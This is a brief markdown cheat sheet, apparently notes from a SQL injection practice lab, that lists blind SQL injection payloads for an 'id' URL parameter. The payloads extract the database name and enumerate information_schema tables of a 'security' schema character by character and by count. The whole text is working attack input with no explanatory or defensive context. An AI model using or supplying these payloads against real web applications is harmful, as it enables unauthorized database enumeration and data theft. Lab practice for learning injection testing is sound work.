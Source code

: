 # blind

id=1 and ascii\(substring\(database\(\),1,1\)\)&gt;100 --%20

?id=1' and \(select table\_name from information\_schema.tables where table\_schema='security' limit 0,1\)='emails' --%20  
OR  
?id=1' and ascii\(substring\(\(select table\_name from information\_schema.tables where table\_schema='security' limit 0,1\)\),1,1\)&gt;120 --%20

?id=1' and \(select count\(\*\) from information\_schema.tables where table\_schema='security'\)=3 --%20


